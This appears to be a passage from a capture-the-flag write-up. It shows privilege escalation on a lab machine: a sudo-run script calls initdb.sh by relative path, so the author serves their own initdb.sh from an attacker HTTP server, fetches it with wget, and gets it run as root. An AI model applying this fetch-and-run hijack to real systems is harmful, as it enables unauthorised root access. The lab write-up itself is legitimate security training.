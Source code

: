 ```bash
dvir@headless:~$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.04, 0.02
Database service is not running. Starting it...
```

Running through the script we can see a file **initdb.sh** referenced in the same directory as it's being ran, and if we run the script we see it does pass through that if statement and supposedly run that bash script. I will do my classic test of placing whoami inside of a bash script to ensure I know who runs **initdb.sh**, and it probably is root but I checked instead of assuming.

```bash
cat initdb.sh 

#!/bin/bash
whoami >> whoami
```

```bash
httpserver 

Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.8 - - [29/Mar/2024 01:05:47] "GET /initdb.sh HTTP/1.1" 200 -
```

```bash
vir@headless:~$ wget http://10.10.14.5:8081/initdb.sh
wget http://10.10.14.5:8081/initdb.sh
--2024-03-29 09:26:37--  http://10.10.14.5:8081/initdb.sh
Connecting to 10.10.14.5:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 29 [text/x-sh]
Saving to: ‘initdb.sh’

     0K                                                       100% 2.04M=0s

2024-03-29 09:26:37 (2.04 MB/s) - ‘initdb.sh’ saved [29/29]

dvir@headless:~$ ls
ls
app
geckodriver.log
initdb.sh
user.txt
dvir@headless:~$ chmod +x initdb.sh
chmod +x initdb.sh
dvir@headless:~$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.03, 0.01, 0.00
Database service is not running. Starting it...
dvir@headless:~$ cat whoami
cat whoami
root
```

